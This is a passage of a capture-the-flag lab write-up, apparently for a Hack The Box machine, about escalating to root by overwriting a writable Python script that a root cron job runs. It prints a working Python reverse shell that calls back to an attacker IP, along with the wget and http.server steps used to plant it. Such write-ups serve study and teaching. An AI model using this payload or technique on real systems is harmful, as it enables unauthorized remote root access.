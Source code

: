 ```python
# Read test.py file
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

# Read test.txt file
cat test.txt
testing 123!
```

We can notice the test.py runs and writes to file - test.txt, the thing to notice is test.txt is saved / owned by root. The file timestamp of test.txt is also very very recent, suggesting the file test.py is run via cron job , and run as root.

Since we can overwrite test.py, let us hack it to run the code we provide ( to get reverse shell ).

Save the below on your local machine (replacing IP and port as required), with name test.py.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
# Change the IP below to your VPN (tun0) IP and any port.
s.connect(("10.10.14.15",8888))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Grant the test.py file 777 permission.
And start a local python server to upload the file to remote machine.

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ chmod 777 test.py
```

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ python -m http.server 7766  #Python3 HTTP.Server
Serving HTTP on 0.0.0.0 port 7766 (http://0.0.0.0:7766/) ...

#when the file is uploaded, the below line would be returned
10.10.10.68 - - [04/Sep/2023 20:27:21] "GET /test.py HTTP/1.1" 200 -
```

Now Get the file via curl or Wget to the machine, overwrite on the same file test.py .
I copied the file via cp , test.py.1 --> test.py.

```bash
wget 10.10.14.15:7766/test.py  #Get the file from our local machine.
--2023-09-04 07:49:38--  http://10.10.14.15:7766/test.py
Connecting to 10.10.14.15:7766... connected.
HTTP request sent, awaiting response... 200 OK
Length: 226 [text/x-python]
Saving to: 'test.py.1'   #since a file test.py already exists, it is appending 1 to it.

     0K                                                       100% 5.61M=0s

2023-09-04 07:49:39 (5.61 MB/s) - 'test.py.1' saved [226/226]

ls -l
total 12
-rw-r--r-- 1 scriptmanager scriptmanager  58 Dec  4  2017 test.py
-rw-r--r-- 1 scriptmanager scriptmanager 226 Sep  4 07:48 test.py.1
-rw-r--r-- 1 root          root           12 Sep  4 07:50 test.txt

# Overwrite / Copy test.py.1 --> test.py
```